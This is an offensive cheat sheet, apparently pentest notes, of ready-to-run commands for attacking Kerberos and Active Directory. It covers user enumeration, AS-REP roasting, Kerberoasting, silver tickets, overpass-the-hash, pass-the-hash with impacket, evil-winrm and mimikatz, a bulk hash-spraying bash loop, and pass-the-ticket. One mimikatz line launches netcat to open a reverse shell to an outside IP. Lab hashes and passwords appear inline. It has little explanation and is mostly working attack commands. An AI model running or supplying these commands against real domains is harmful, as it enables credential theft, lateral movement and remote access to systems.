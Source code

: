 Kerberos
========================

User enumeration

```
kerbrute userenum -d domain --dc <hostname> users.txt
```

AS-REP Roasting
```
impacket-GetNPUsers -request domain/ -usersfile usernames.txt -dc-ip <hostname>
```

## Kerberoasting
```
impacket-GetUserSPNs -request domain/user:password -dc-ip <hostname>
```
## Silver Ticket

```
rubeus.exe silver /service:cifs/dc1.ignite.local /rc4:64FBAE31CC352FC26AF97CBDEF151E03 /ldap /creduser:ignite.local\Administrator /credpassword:Ignite@987 /user:harshitrajpal /krbkey:EA2344691D140975946372D18949706857EB9C5F65855B0E159E54260BEB365C /krbenctype:aes256 /domain:ignite.local /ptt
```

## Overpass the hash

    impacket-getTGT -hashes :f6b7160bfc91823792e0ac3a162c9267 HTB.LOCAL/Administrator -dc-ip 10.10.10.103
    
    cp user.ccache /tmp/krb5cc_0
    export KRB5CCNAME=/tmp/krb5cc_0
    
    klist

## Pass the hash

### Impacket and evil-winrm
```
evil-winrm -i <hostname> -u user -H lmhash:nthash
impacket-psexec user@<hostname> -hashes lmhash:nthash
impacket-smbexec user@<hostname> -hashes lmhash:nthash
impacket-wmiexec user@<hostname> -hashes lmhash:nthash
```
**Bulk pass the hash**

Aqui temos uma opção intressante de verificar se existe a possibilidade de logar via kerberos com vários hashes de senha, sendo esese script válido para isto:


```
#!/bin/bash
#
for i in $(cat usernames.txt) 
do 
        for j in $(cat nthashes.txt) 
        do 
                echo trying $i:$j 
                echo 
                impacket-getTGT htb.local/$i -hashes $j:$j    
                echo 
                sleep 5 
        done 
done
```

### Rubeus and Mimikatz
```
sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<hash> /run:Powershell.exe

sekurlsa::pth /domain:flight.htb /user:R.Cold /ntlm:5607f6eafc91b3506c622f70e7a77ce0 /run:".\n.exe -e cmd 10.10.14.14 8091"
```

## Pass the ticket

```
rub.exe ptt /ticket:0-40e10000-G0$@krbtgt~FLIGHT.HTB-FLIGHT.HTB.kirbi
```

![qownnotes-media-zBGsNi](../.gitbook/assets/qownnotes-media-zBGsNi.png)